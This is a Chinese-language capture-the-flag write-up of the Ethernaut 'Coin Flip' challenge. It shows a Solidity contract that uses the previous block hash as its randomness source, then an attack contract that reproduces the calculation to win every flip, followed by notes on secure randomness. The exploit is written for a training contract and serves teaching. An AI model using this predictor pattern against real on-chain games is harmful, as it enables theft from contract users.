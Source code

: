 # 3.Coin Flip

## 题目描述

![img](../../../.vuepress/public/img/1645011948059-f3f2ea31-ba84-45db-b702-a7d7b2e428b1.png)

## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

这里通过计算上一区块的信息与一个固定的数值相计算，就不存在随机的情况了，除了第一次的上一区块随机，其他均为可知的值

![img](../../../.vuepress/public/img/1645054208418-cc8c6e81-78ce-4c64-846c-099cbc532ac2.png)

直接使用原合约的计算方法，部署攻击合约

```javascript
contract Attack {
  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  address addr = 0x36D583674B7afE99c0c8FDE510BbA46ec7b96531;
  CoinFlip coin = CoinFlip(addr);

  function attack() public{
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    coin.flip(side);
  }
}
```

调用10次完成关卡

![img](../../../.vuepress/public/img/1645054867204-01557284-20da-4ba5-b878-41839a6cd94c.png)

```javascript
通过solidity产生随机数没有那么容易. 目前没有一个很自然的方法来做到这一点, 而且你在智能合约中做的所有事情都是公开可见的, 包括本地变量和被标记为私有的状态变量. 矿工可以控制 blockhashes, 时间戳, 或是是否包括某个交易, 这可以让他们根据他们目的来左右这些事情.
想要获得密码学上的随机数,你可以使用 Chainlink VRF, 它使用预言机, LINK token, 和一个链上合约来检验这是不是真的是一个随机数.
一些其它的选项包括使用比特币block headers (通过验证 BTC Relay), RANDAO, 或是 Oraclize).
```